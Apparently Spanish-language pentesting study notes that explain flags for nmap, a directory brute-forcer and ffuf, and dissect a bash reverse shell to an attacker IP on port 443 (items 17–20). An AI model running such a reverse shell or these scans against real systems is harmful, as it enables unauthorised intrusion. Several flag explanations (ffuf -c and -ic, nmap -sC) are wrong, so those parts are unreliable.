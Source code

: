 **1. “-sS”:**
  - este parámetro nos permite hacer un sondeo Tcp pero no establecer conexión En vez de “SYN>SYN/ACK>ACK” hace un “SYN>SYN/ACK/RST” El rst es para cerrar conexión, como no se ha esablecido conexión normalmente no se guarda en los logs ni rastro en los firewalls.
    
**2.	“-p-“**
  - Con esto le indicamos que nos escanee los 65535 puertos totales que hay
     
**3. “—open”** 
  -	para que nos muestre solo los puertos abiertos y que ignore los filtrados,
    
**4. “-T5”** 
  - Este nos permite modificar la plantilla de temporizado del escaneo, existen 5 modos : paranoico (0), sigiloso (1), amable (2), normal (3), agresivo (4) y loco (5), Los 2 primeros reducen el sondeo tcp para que utilize menos ancho de banda. La 0 sondea 1 puerto a la vez, y espera 5 min antes de enviar cada sonda, el 1 y el 2 son similares, esperan 0.4 segundos entre sondas, el 3 (uso por defecto de nmap) hace sondeos en paralelo, el 4 y el 5 envian sondas cada 5 ms, lo único que les diferencian es el tiempo que esperan para recibir la respuesta de el sondeo TCP.
    
**5. “—min-rate 5000”**
  -	Nos permite especificar la cantidad mínima de paquetes que se envían por segundo, por lo que he investigado el numero que menos falsos positivos y falsos negativos da se encuentra entre el 5000-5800.
    
**6. ”-n”** 
  -	Le indicamos que no queremos que nos haga la resolución DNS al host, básicamente pregunta a los servidores DNS cual es el dns del host (nslookup), lo que ocurre es que la resolución hace muy lento el escaneo por lo que lo desactivamos ya que si queremos hacer resolución dns lo podemos hacer manualmente.
    
**7. “-Pn”**
  - En este caso le indicamos que no lance trazas icmp al host, ya que normalmente antes de un escaneo nmap envia trazas icmp para determinar si el host está activo o no, lo que ocurre es que ralentiza mucho el escaneo por lo que lo deshabilitamos ya que si queremos determinar si el host esta vivo tenemos muchísimos otros métodos incluso si las trazas icmp están bloqueadas por firewall físico o de sistema operativo.
    
**8. “-oG”**
  - Le indicamos que nos ponga el output en un archivo en formato grepeable para que después cuando lo pase por una función de mi zshrc me copie al portapapeles los puertos abiertos
    
**9. “-vvv”**
  -	Es para ponerlo en verbose mode, básicamente que mientras está haciendo el escaneo nos muestre que puertos encuentra abiertos
    
**10. “-sC”**
  -	Nos permite detectar que servicios están corriendo en los puertos abiertos
    
**11. “-sV”**
  -	Nos permite detectar la versión de los servicios que estan ejecutándose en los puertos lo que nos permite encontrar vulnerabilidades
    
**12. “-oN”**
  -	Es para exportarlo en formato Nmap por si después tenemos que volver a analizarlo.

**13.	“-u”**
  -	Es para indicarle el url victima
  	
**14.	“-w”**
  -	Es para indicarle el diccionario para la fuerza bruta, en este caso utilizo un que ya esta creado llamado “SecLists” que es un conjunto de diccionarios para hacer fuerza tanto como subdominios, fuzzing, etc.
    
**15. “-t”**
  - Es para indicarle los hilos de el proceso (Cuantas tareas a la vez debe ejecutar a la vez (en este caso 400)

**16. “-x”**
  - Es para indicarle que extensiones específicas quiero que me reporte que ha encontrado en algún directorio.
    
**17.	“bash -c”**
  -	Primero lo que hacemos es asegurarnos que el comando se ejecuta con bash y no con otro tipo de Shell, ya que sinó no funcionará.

**18.	“bash -i”**
  -	Ejecutamos una bash interactiva, ya que bash -c solo nos permite ejecutar comandos, como por ejemplo: “whoami”, pero este no nos permite ejecutar nada más, por esa razón una bash interactiva nos deja poner comandos todas las veces que queramos y recibir el output.
    
**19.	“>&”**
  -	Con estos caracteres especiales redirigimos el stdrr y el stdout a nuestro equipo
    -	“/dev/tcp/192.168.1.60 /443”
  - En este caso “/dev/tcp” está siendo utilizado para entablar por tcp una conexión con nuestra ip por el puerto 443
    
**20.	“0>&1”**
  -	Redirige el stdin a stdout, esto se hace para que se pueda interactuar con una Shell en remoto mediante la conexión establecida.
  -	Esta redirección es utilizada para hacer que la entrada estándar del proceso Bash (que normalmente se recibiría del teclado) esté conectada a la misma ubicación que la salida estándar. Esto significa que cualquier entrada que se escriba en la sesión de la shell se transmitirá a través de la misma conexión que se ha establecido con la dirección IP y puerto especificados. Esto permite la interacción bidireccional con la shell remota a través de la conexión de red establecida.

**21. ffuf**
  - Es el comando principal ya que es la herramienta que vamos a utilizar.

**22. -c**
  - Con este parámetro haremos que siga automáticamente las redirecciones HTTP y HTTPS.

**23. -u
  - Este paramettro hacemos especificar una URL para hacer la fuerza bruta.
    
**24. -w**
  - Especificamos la ubicación del archivo de palabras que utiliza la herramienta ffuf para realizar la fuerza bruta, ese archivo se llama common.txt, ubicado en /usr/share/wordlists/dirb.

**25. -ic**
  - Con este parámetro hacemos que los códigos en estado HTTP no se distinga entre mayúsculas y minúsculas.
**26. -fc 403**
  - Con este parámetro escogemos que queremos filtrar durante el escaneo en este caso queremos las respuestas de 403 (Forbidden).
**27. -e**
  - Este parámetro lo utilizaremos para decir que archivos queremos que nos filtre, en este caso seria .txt y .html

